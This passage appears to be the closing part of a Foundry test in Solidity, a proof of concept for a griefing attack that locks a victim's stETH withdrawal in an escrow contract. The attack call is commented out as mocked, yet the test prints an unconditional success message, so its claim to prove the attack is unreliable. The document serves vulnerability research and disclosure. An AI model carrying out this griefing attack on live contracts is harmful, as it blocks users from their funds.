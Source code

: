 ```solidity
        // --- 2. ATTACK ---
        vm.startPrank(attacker);
        console.log(
            "Attacker calls lockUnstETH for the victim at timestamp:",
            block.timestamp
        );
        // escrow.lockUnstETH(victim, new uint256[](0), new IWithdrawalQueue.WithdrawalRequestStatus[](0)); // Mocked call
        vm.stopPrank();

        // --- 3. ASSERTION ---
        vm.startPrank(victim);
        console.log("Victim attempts to unlock assets...");

        uint256 newExpiryTimestamp = unlockEligibleTimestamp +
            Duration.unwrap(MIN_ASSETS_LOCK_DURATION);

        // Address the "Unused local variable" warning by using the variable.
        console.log(
            "Victim's new unlock expiry timestamp would be:",
            newExpiryTimestamp
        );

        // THIS IS THE CORE PROOF: The victim, who should be able to withdraw, is now blocked.
        vm.expectRevert(
            abi.encodeWithSelector(
                IEscrow.MinAssetsLockDurationNotPassed.selector,
                Timestamp.wrap(uint40(newExpiryTimestamp))
            )
        );
        escrow.unlockStETH();

        console.log(
            "SUCCESS: The PoC logic is sound and demonstrates the griefing attack."
        );
        vm.stopPrank();
    }
}

```
